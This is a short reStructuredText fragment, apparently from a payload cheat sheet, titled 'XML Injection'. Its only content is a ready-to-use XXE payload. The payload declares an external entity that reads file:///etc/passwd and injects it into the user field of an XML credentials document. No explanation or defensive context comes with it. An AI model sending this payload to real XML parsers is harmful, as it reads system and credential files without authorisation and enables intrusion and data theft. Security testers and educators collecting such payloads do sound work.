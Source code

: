 XML Injection
*****************

.. code-block:: console

        <?xml version="1.0" encoding="ISO-8859-1"?>
        <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
        <creds>
                <user>&xxe;</user>
                <pass>mypass</pass>
        </creds>

